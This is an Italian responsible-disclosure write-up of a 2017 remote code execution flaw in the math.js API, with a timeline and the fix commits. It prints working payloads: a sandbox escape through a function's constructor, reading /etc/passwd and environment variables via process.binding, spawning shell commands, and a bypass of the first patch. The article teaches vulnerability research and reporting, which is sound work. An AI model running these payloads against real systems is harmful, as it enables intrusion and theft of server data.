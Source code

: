Come abbiamo exploitato una vulnerabilità di remote code execution in math.js
====

Questo articolo spiega in breve come abbiamo trovato, exploitato e segnalato una vulnerabilità di remote code execution (RCE). È fatto per essere una guida su come trovare vulnerabilità, e come segnalarle in modo responsabile.

## Prima fase: scoperta
Sperimentando con [un wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) dell'API math.js (`http://api.mathjs.org/v1/?expr=expression-here`), abbiamo scoperto che **sembra eseguire del codice JavaScript**, anche se con alcune restrizioni:

```
!calc cos
Result: function
!calc eval
Result: function
!calc eval("x => x")
Error: Value expected (char 3)
!calc eval("console.log")
Error: Undefined symbol console
!calc eval("return 1")
Result: 1
```

In particolare, sembra che `eval` sia stato sostituito con una versione sicura. Neanche `Function` e `setTimeout` funzionano:

```
!calc Function("return 1")
Error: Undefined symbol Function
!calc setTimeout
Error: Undefined symbol Function
```

## Seconda fase: exploit

>Dopo aver capito che ci sono delle restrizioni sull'esecuzione del codice, abbiamo dovuto capire come aggirarle.

In JavaScript ci sono quattro modi di **eseguire delle stringhe**:

  - [`eval("codice")`](https://developer.mozilla.org/it/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("codice")`](https://developer.mozilla.org/it/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/it/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/it/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

Nell'ambiente math.js, non possiamo accedere direttamente a queste funzioni, o perché non sono definite o perché sono state ridefinite perché siano sicure. Tuttavia, ci si può accedere indirettamente: in particolare, **si puà accedere indirettamente a `Function` come construttore di una funzione esistente** - questa è stata l'intuizione chiave che ha portato all'exploit.

>Per esempio, `Function("return 1")` può essere sostituito con `Math.floor.constructor("return 1")`. Perciò, per eseguire `return 1`, possiamo usare `Math.floor.constructor("return 1")()`.

Sappiamo che in math.js `cos` è definito come una funzione, per cui l'abbiamo usata:

```
!calc cos.constructor("return 1")()
Result: 1
```

Funziona!

Da qua avremmo potuto semplicemente usare `require` con dei moduli nativi e avere accesso al sistema operativo, giusto? Purtroppo no: nonostante il server dell'API math.js giri in un ambiente Node.js, per qualche motivo non possiamo usare `require`.

```
!calc cos.constructor("return require")()
Error: require is not defined
```

Tuttavia abbiamo potuto usare `process`, che ha [diverse funzionalità carine](https://nodejs.org/api/process.html):

```
!calc cos.constructor("return process")()
Result: [object process]
!calc cos.constructor("return process.env")()
Result: {"WEB_MEMORY": "512", "MEMORY_AVAILABLE": "512", "NEW_RELIC_LOG": "stdout", "NEW_RELIC_LICENSE_KEY": "<censurato>", "DYNO": "web.1", "PAPERTRAIL_API_TOKEN": "<censurato>", "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin", "WEB_CONCURRENCY": "1", "PWD": "/app", "NODE_ENV": "production", "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]", "SHLVL": "1", "HOME": "/app", "PORT": "<censurato>", "NODE_HOME": "/app/.heroku/node", "_": "/app/.heroku/node/bin/node"}
```

Nonostante `process.env` contenga alcune informazioni interessanti, non possiamo usarlo per fare nulla di interessante: dobbiamo andare più in fondo e usare [`process.binding`](http://stackoverflow.com/q/24042861), che esponde dei binding Javascript all'OS. Nonostante non siano presenti nella documentazione ufficiale, si può determinare il loro funzionamento leggendo il codice sorgente di Node.js. Ad esempio, possiamo usare `process.binding("fs")` per leggere qualsiasi file sul disco (se abbiamo i permessi necessari):

>Per brevità, salteremo il wrapper `!calc cos.constructor("code")`, e presenteremo solo il codice JS.

```
buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
Result: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

Abbiamo quasi finito: dobbiamo solo capire come aprire una shell ed eseguire un qualsiasi comando. Chi ha esperienza con Node.js sarà a conoscenza di [`child_process`](https://nodejs.org/api/child_process.html), che può essere usato per spawnare processi tramite `spawnSync`: dobbiamo solo re-implementare `child_process` usando i binding al SO (ricordiamo che non possiamo usare `require`).

È più facile di quanto sembri: basta prendere [il codice sorgente di `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), rimuovere il codice che non ci serve (funzioni inutilizzate e gestione degli errori), minificarlo ed eseguirlo nell'API ([qua il codice](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822)). Una volta fatto questo, **possiamo spawnare un qualsiasi processo** ed eseguire comandi nella shell:

```
return spawnSync('/usr/bin/whoami');
Result: {"status": 0, "signal": null, "output": [null, u15104, ], "pid": 100, "stdout": u15104, "stderr": }
```

## Fase tre: segnalazione

Dopo aver trovato una vulnerabilità e l'abbiamo sfruttata al massimo, abbiamo dovuto decidere cosa farci. Poiché l'abbiamo exploitata per divertimento e non abbiamo scopi criminali, abbiamo scelto di fare i "white hat" e di segnalarlo all'autore. L'abbiamo **contattato in privato** tramite l'indirizzo e-mail sul suo profilo GitHub con questi dettagli:

 - una breve descrizione della vulnerabilità (una RCE in mathjs.eval);
 - un **attacco di esempio** con una spiegazione di come funzionasse (una spiegazione del perché `cos.constructor("code")()` funzionasse e di cosa si potesse fare con `process.bindings`);
 - una **dimostrazione** sul server live (abbiamo incluso l'output di `whoami` e `uname -a`);
 - suggerimenti su **come sistemare la vulnerabilità** (ad esempio, usando [il modulo `vm` in Node.js](https://nodejs.org/api/vm.html)).

Abbiamo lavorato con l'autore per due giorni per aiutarlo a sistemare la vulnerabilità. In particolare, dopo la fix inclusa in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) abbiamo trovato un altro modo di aggirarla (se non si può usare direttamente il costruttore, basta usare `cos.constructor.apply(null, "code")()`) che è stato sistemato in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 Marzo 2017 22:20 CEST: primo exploit avvenuto con successo
 - 29 Marzo 2017 14:43 CEST: la vulnerabilità è stata segnalata all'autore
 - 31 Marzo 2017 12:35 CEST: la seconda vulnerabilità (`.apply`) è stata segnalata
 - 31 Marzo 2017 13:52 CEST: sono state sistemate entrambe le vulnerabilità

---

>La vulnerabilità è stata scoperta da [\@CapacitorSet](https://github.com/CapacitorSet) e [\@denysvitali](https://github.com/denysvitali). Ringraziamo [\@josdejong](https://github.com/josdejong/) per aver fixato la vulnerabilità con prontezza, e [JSFuck](http://www.jsfuck.com/) per aver scoperto il trucco di usare `[].filter.constructor`.
>
><small>Rilasciato sotto la licenza [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).